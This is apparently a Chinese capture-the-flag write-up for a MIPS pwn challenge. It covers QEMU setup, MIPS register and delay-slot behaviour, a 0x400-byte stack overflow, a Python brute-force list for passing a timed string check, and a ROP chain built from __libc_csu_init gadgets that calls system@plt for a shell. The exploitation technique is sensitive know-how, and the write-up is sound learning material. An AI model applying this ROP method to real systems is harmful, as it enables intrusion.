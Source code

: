 ## start
调试`mips`就首先要有个`mips`的环境，推荐[mips qcow2](https://people.debian.org/~aurel32/qemu/mips)

下载完成后用`qemu mips`起，`apt-get`安装好需要的相关工具
```bash
#!/bin/bash
qemu-system-mips -M malta \
    -kernel vmlinux-3.2.0-4-4kc-malta \
    -hda debian_wheezy_mips_standard.qcow2 \
    -append "root=/dev/sda1 console=tty0" \
    -netdev user,id=net0 \
    -device e1000,netdev=net0,id=net0,mac=52:54:00:c9:18:27 \
    -net user -redir tcp:2222::22 -redir tcp:22333::22333 -redir tcp:1234::1234
```

## 基础知识
查阅相关资料可以得知，`mips`寄存器作用，和函数调用时候的一些信息。

- `a0-a3`: 存储参数
- `fp`: `fram pointer`，用来恢复栈之类的操作，可以理解为和`ebp`差不多的作用
- `sp`: 存储栈地址
- `v0...`: 存储一些变量或地址
- `t8,t9`: 临时寄存器，`t9`常常用来调用函数。如`alarm`的`plt`调用如下
```Assembly
.plt:00400820                   alarm:
.plt:00400820 3C 0F 00 41                       lui     $t7, 0x41  # 'A'
.plt:00400824 8D F9 14 44                       lw      $t9, off_411444
.plt:00400828 03 20 00 08                       jr      $t9
.plt:0040082C 25 F8 14 44                       addiu   $t8, $t7, (off_411444 - 0x410000)
```
需要主要的是`jr, jalr`等跳转指令有个特点
![jr ec](mipsbigjr.jpg)
它会先执行跳转指令的后一条指令，然后再跳转。

## reverse
程序关键的地方在`0x400C30`，其他地方的话过一下就清楚是干什么的。
### check
对程序进行分析，首先`checksec`，最好用`mips`环境的`gdb`来查看，`x86`的`gdb`看会有些问题
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : disabled
```
开了`NX`，`libc`库也是随机加载的。

### vuln
漏洞点很容易发现，在`0x400FF8`，往栈上读了`0x400`字节，但实际上缓冲区没这么大。
```Assembly
.text:00400C30 var_3C          = -0x3C
.text:00400C30 var_38          = -0x38
.text:00400C30 var_34          = -0x34
.text:00400C30 var_30          = -0x30
.text:00400C30 var_14          = -0x14
.text:00400C30 var_10          = -0x10
.text:00400C30 var_C           = -0xC
.text:00400C30 var_8           = -8
; ....
.text:00400FEC                 addiu   $v0, $fp, 0xD8+var_30
.text:00400FF0                 move    $a0, $v0
.text:00400FF4                 li      $a1, 0x400
.text:00400FF8                 jal     readn_400B38
.text:00400FFC                 move    $at, $at
```
> `readn_400B38`是一个字节一个字节的读，读到回车或者到了`0x400-1`就返回。

### 逻辑
漏洞很好找，那么我们就需要到达漏洞点。

`0x400C30`中逻辑如下：
1. 栈上一片缓冲区初始化为`0x401364`等地方的字符串，计为`alph0`。(`We, are`等)
2. 循环8次，每次随机选`alph0[len(alph0)/2:]`和`alph0[:len(alph0)/2]`两个部分的一个串交换。
3. 又一个循环，每次将我们的输入字符串和`alph0[i]`比较(每次都比较到我们输对了为止)
4. 计算`3`所用时间是不是小于`3s`，如果成立，就让我们到达漏洞点输入`0x400`

### 爆破
关于如何输对字符串，我们可以调试看看字符串变成什么样子，然后爆破，通过测试，字符串序列可以如下：
```Python
guesslist = ["nomal", "arch", "bcz", "W3Are", "We", "are", "grad", "from"]
for c in range(11, 0x100):
    guesslist.append("hakker"+chr(c)+"h")
for c in range(22, 0x100):
    guesslist.append("hakker"+chr(c)+"d")
```
## rop
由于对`mips`不熟悉，在这里卡了挺久。

### without libc

#### sigh
开始看到`0x400A9C`的`system("/bin/sh")`很高兴，但是地址是带`\x0A`，不能直接跳过去。

所以就要设置参数`a0`为`"/bin/sh"`，然后跳到`system`，但是`MIPS`的`rop`没有直接能设置参数的
> 如`0x00401208: move $a0, $s3; move $a1, $s4; jalr $t9;`，要设置`t9`，但是并没有合适的`gadget`。

#### oh

```Assembly
.text:00401200                 lw      $t9, 0($s1)
.text:00401204                 addiu   $s0, 1
.text:00401208                 move    $a0, $s3
.text:0040120C                 move    $a1, $s4
.text:00401210                 jalr    $t9
.text:00401214                 move    $a2, $s5
.text:00401218                 sltu    $v0, $s0, $s2
.text:0040121C                 bnez    $v0, loc_401200
.text:00401220                 addiu   $s1, 4
.text:00401224
.text:00401224 loc_401224:                              # CODE XREF: __libc_csu_init+60↑j
.text:00401224                 lw      $ra, 0x38+var_4($sp)
.text:00401228                 lw      $s5, 0x38+var_8($sp)
.text:0040122C                 lw      $s4, 0x38+var_C($sp)
.text:00401230                 lw      $s3, 0x38+var_10($sp)
.text:00401234                 lw      $s2, 0x38+var_14($sp)
.text:00401238                 lw      $s1, 0x38+var_18($sp)
.text:0040123C                 lw      $s0, 0x38+var_1C($sp)
.text:00401240                 jr      $ra
.text:00401244                 addiu   $sp, 0x38
```
`__libc_csu_init+60`里面直接设置好参数，然后跳转到`0x00401200`，然后`jalr $t9`调用`system@got`。

然而，实际上会发现，`jalr $t9`之后并没有进真实到`system`，调的是`read`。
```
Breakpoint 3, 0x77f860f4 in ?? () from /lib/ld.so.1
gdb-peda$ x/10i $pc
=> 0x77f860f4:	jr	t9
gdb-peda$ x/4i $t9
   0x77ec9bf8 <read>:	lui	gp,0xa
   0x77ec9bfc <read+4>:	addiu	gp,gp,23928
   0x77ec9c00 <read+8>:	addu	gp,gp,t9
   0x77ec9c04 <read+12>:	0x7c03e83b
            t8       t9       k0       k1       gp       sp       s8       ra
 R24  f0000000 77ec9bf8 00000000 00000000 77fa7000 7fd7f0f8 00411420 00401218
```
了解`libc`库函数加载的都知道第一次掉没有调的函数前会有`ld`链接的操作，最后再跳到真正的`libc`地址。

我们看看`system@plt`
```
.plt:00400840                 lui     $t7, 0x41  # 'A'
.plt:00400844                 lw      $t9, off_41144C
.plt:00400848                 jr      $t9
.plt:0040084C                 addiu   $t8, $t7, (off_41144C - 0x410000)
```
刚开始不是很理解我们`jalr $t9`调用`*system@got`和这里有什么区别

但是仔细理解`jr`指令就发现`system@plt`是先`addiu   $t8, $t7, (off_41144C - 0x410000)`，再跳转，`t8`之后用来计算出真正的`system`偏移。

而在我们`jalr $t9`调`*system@got`时，`t8`是`0x411430`，就是`read@got`。

那么我们要调用`system`，要么设置好`t8`再跳`*system@got`，要么直接跳`system@plt`。由于`mips`的`gadget`不像`x86`那么随意，还是跳`system@plt`比较容易。

#### trick

`.text:00401210   jalr    $t9` 之后还有一个`gadget`，我们很容易使得`.text:00401240     jr      $ra`的`$ra`为`system@plt`，接下来就是参数。

其实我们可以发现，`jalr $t9`调用之后，`a0`是不变的，因为函数的返回值存在`v0,v1`里面。

所以我们可以直接在栈上再布好`gadget`
1. `0x00401224`设置好`s0-s5`
2. `0x00401200`配好函数参数调用假的`system`，之后`a0`还是指向我们设置到值
3. 程序往下走到`0x00401224`，设置`$ra`到`plt@system`，调用真正的`system`

## Summary

包了个`mips`的栈溢出，其实不难，但是比赛的时候不熟悉，环境也没有，赛后查指令做了一天。。
